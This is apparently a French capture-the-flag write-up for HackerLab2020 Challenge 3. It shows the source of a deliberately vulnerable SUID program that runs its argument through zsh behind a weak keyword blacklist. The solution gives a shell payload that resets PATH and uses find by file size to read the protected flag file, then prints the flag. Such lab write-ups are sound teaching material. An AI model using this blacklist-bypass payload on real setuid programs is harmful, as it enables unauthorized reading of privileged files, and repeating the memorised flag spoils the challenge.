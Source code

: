 # HackerLab2020 - Challenge 3

## Challenge

Après connexion sur le serveur ssh, nous avons des fichiers dont un fichier SUID _chal0x01_ et un fichier source _chal0x01.c_ , dont le contenu est le suivant :
```c
#define _XOPEN_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

int covider(char* command){
	int out=0;
	out += strstr(command, "f_l_a_g_")!=0;
	out += strstr(command, "_")!=0;
	out += strstr(command, "*")!=0;
	return out;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/jinfectetonpathalacovid");
	if(covider(argv[2])) return 0;
	int ret;
	ret = execl ("/usr/bin/zsh", "zsh","-c", argv[2],(char *)0);

	return 0;
}
```
# Solution
Il faut comprendre d'abord qu'il y a un control sur le deuxième argument du programme. A cet effet, la réussite de cette épreuve sera effective lorsque nous arriverons à afficher le contenu du fichier *f_l_a_g_* sans utiliser les caractères ou expressions blacklistés.

Dans un premier temps, nous avons vérifié la taille du fichier *f_l_a_g_* en question puis effectué un filtre dessus tout en bypassant les caractères blacklistés et maintenir la variable _$PATH_ intacte.

```bash
chal0x01@vps-dc68098a:~$ ls -lh
total 28K
-rwsr-sr-x 1 chal0x01_pwn chal0x01_pwn 17K août  18 12:06 chal0x01
-r--r----- 1 chal0x01_pwn chal0x01     470 août  18 12:06 chal0x01.c
-r-------- 1 chal0x01_pwn chal0x01     253 août  18 11:06 f_l_a_g_
chal0x01@vps-dc68098a:~$ ./chal0x01 inspiv 'PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games&&more `find /home/chal0x01 -type f -size 253c`'
Félicitations. Si tu as pu lire ce fichier, c'est que tu remplis les conditions necessaires pour participer à la phase finale du HackerLab2020.
Il s'agit pour toi maintenant de t'entrainer plus que jamais!
Voici le flag final!
CTF_Kephren_1s_Th3_g0@t
chal0x01@vps-dc68098a:~$
```

Payload: ```./chal0x01 inspiv 'PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games&&more `find /home/chal0x01 -type f -size 253c`'```

```
FLAG: CTF_Kephren_1s_Th3_g0@t
```
